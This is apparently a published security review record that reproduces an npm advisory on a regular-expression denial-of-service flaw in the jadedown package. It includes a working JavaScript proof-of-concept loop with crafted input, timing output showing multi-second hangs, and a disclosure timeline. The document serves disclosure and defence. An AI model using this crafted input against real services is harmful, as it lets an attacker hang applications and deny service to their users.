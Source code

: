 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/jadedown
Review-Date: '2016-01-05'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>There is currently no fix. Do not allow untrusted user input into `jadedown`
### Details
jadedown is vulnerable to regular expression denial of service (ReDoS) when certain types of user input is passed in.   "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time." [1]   ### Proof of concept ``` var jadedown = require('jadedown');  var genstr = function (len, chr) {     var result = "";     for (i=0; i<=len; i++) {         result = result + chr;     }      return result; }   for (i=1;i<=10000000;i=i+1) {     console.log("COUNT: " + i);     var str = genstr(i, 'f') + genstr(i, '#') + '{';     console.log("LENGTH: " + str.length);     var start = process.hrtime();     jadedown(str)      var end = process.hrtime(start);     console.log(end); }  ```  Results demonstrating blocking for 5 seconds using only 48 characters.  ``` $ node jadedown.js COUNT: 1 LENGTH: 6 [ 0, 4014065 ] COUNT: 4 LENGTH: 12 [ 0, 503507 ] COUNT: 7 LENGTH: 18 [ 0, 325225 ] COUNT: 10 LENGTH: 24 [ 0, 1632684 ] COUNT: 13 LENGTH: 30 [ 0, 7541230 ] COUNT: 16 LENGTH: 36 [ 0, 80889495 ] COUNT: 19 LENGTH: 42 [ 0, 636009936 ] COUNT: 22 LENGTH: 48 [ 5, 820586760 ] ```  # Timeline - October 24, 2015 - Vulnerability Identified - October 24, 2015 - Maintainers Notified - October 25, 2015 - Response from Maintainers with intent to fix - January 5, 2016 - Advisory Published - January 11, 2016 - CVE Requested
<br><br>• Affected Versions: <=99.999.99999
<br>• Patched Versions: <0.0.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
